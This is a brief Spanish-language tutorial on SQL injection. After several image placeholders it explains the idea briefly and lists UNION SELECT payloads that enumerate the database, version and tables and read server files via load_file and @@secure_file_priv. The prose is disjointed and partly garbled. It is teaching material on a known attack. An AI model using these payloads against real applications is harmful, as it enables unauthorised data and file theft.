






Es una de las más populares sino la más popular.
Una inyección SQL no es más que una inyección de código en el contexto de consultas SQL.

Tenemos otras formas también para cuando no salen estos mensajes de error.
Sabiendo esto podemos modificar la consulta o query SQL que realiza el servidor.

Podemos consultar otras cosas como el motor de base de datos que utiliza.
' union select null,database(),null,null,null,null,null --

' union select null,version(),null,null,null,null,null --

' union select null,table_name,null,null,null,null,null from information_schema.tables --

Hay veces que nuestra base de datos SQL nos va a permitir también acceder a ficheros que se encuentran en el sistema operativo.
La ruta a la que tiene acceso una base de datos mayor se cuele viene determinada por la siguiente variable.
' union select null,@@secure_file_priv,null,null,null,null,null --

' union select null,load_file('/var/lib/mysql-files/ficheroimportante.txt'),null,null,null,null,null --